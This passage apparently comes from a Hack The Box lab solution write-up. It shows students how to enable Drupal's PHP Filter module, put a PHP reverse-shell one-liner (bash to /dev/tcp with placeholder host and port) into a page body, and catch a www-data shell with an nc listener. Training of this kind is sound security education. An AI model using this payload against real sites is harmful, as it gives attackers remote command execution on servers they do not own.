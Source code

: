 Subsequently, students need to click on "Extend", scroll down until they find the "PHP Filter" module, and then check it:

![[HTB Solutions/CPTS/z. images/8b577684dfdf7267c392653758113f04_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/4a57073e6869a84a1a35a10ccfcf26e0_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/8739a9b99b98956313edf3423e68fb48_MD5.jpg]]

Students then need to click on "Content" and click on "Add Content":

![[HTB Solutions/CPTS/z. images/4a4869c93ebb8541fe28b9ea3188715a_MD5.jpg]]

Then, students need to click on "Basic page":

![[HTB Solutions/CPTS/z. images/88fd2dbfad918606788f1c80b6e2b415_MD5.jpg]]

Students need to have in the body a PHP reverse-shell one-liner, and change `Text format` to be `PHP code`:

Code: shell

```shell
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/PWNIP/PWNPO 0>&1'");
?>
```

![[HTB Solutions/CPTS/z. images/a8a02dd5a7192653ea439e298eb05263_MD5.jpg]]

Before clicking on "Save", students need to start an `nc` listener on Pwnbox/`PMVPN`, specifying the same port used in the PHP reverse-shell one-liner:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-f6k4hfqgg8]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Then, after clicking on "Save", students will notice that the they attained a reverse-shell:

```
Ncat: Connection from 10.129.84.151.
Ncat: Connection from 10.129.84.151:34778.

whoami

www-data
```
